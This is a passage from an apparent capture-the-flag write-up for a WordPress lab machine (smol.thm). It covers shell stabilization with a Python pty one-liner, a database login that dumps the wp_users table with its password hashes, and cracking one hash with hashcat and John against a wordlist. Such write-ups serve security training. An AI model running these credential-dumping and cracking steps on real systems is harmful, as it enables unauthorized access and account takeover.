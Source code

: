Shell Stabilization:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

### 7. Lateral Movement

Database Access:
```bash
mysql -u wpuser -p
Enter password: [REDACTED]
```

Extracting User Hashes:
```sql
USE wordpress;
SELECT * FROM wp_users;
```

```text
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                      
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |                                      
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |                                      
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |                                      
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |                                      
|  5 | diego      | $P$BWFBcbXdz[REDACTED]r3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |                                      
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |                                      
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+                                      
```

Cracking Diego's Password:
```bash
echo '$P$BWFBcbXdz[REDACTED]r3Erff4JPwv1' > hash 

#hashcat
hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt

#john
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass
```
